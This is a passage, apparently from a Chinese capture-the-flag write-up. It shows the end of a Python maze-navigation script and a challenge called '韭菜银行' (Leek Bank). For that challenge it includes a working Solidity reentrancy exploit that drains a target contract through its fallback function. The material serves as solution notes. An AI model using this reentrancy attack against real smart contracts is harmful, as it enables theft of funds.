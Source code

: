 ```python
					u-=1
				return xp,['..']*(len(seq)-u)+xt[u:]
			if xp not in sq:
				q.append(xp)
				sq[xp]=xt
		i+=1
	return None

cur=(0,0)
curv=[]
known={(0,0):'Down'}

_ot=False

while True:
	if len(curv)>300:
		for i in range(140):
			send('cd ..\n')
			curv=curv[:-1]
		cur=get()[0]
	ncur,s=find_unknown(cur,curv)
	print(ncur,len(curv),s)
	for i in s:
		if i=='..':
			curv=curv[:-1]
		else:
			curv+=[i]
		send('cd '+i+'\n')
	a,b=get()
	known[a]=b
	assert a==ncur
	cur=ncur
```

（为了防止超时可以存一下已知的位置，这份代码把这个删掉了）

## 韭菜银行

### flag1

查看创建合约时的参数

### flag2

重入漏洞

```solidity
contract attacker {
    JCBank target = JCBank(0xe575c9abd35fa94f1949f7d559056bb66fddeb51);

    uint private flag = 0;

    function exploit() public payable {
        target.deposit.value(1000 wei)();
        target.withdraw(1000 wei);
        target.get_flag_2(460743966538);
    }

    function() external payable {
        if (flag == 0) {
            flag = 1;
            target.withdraw(1000 wei);
        }
    }
```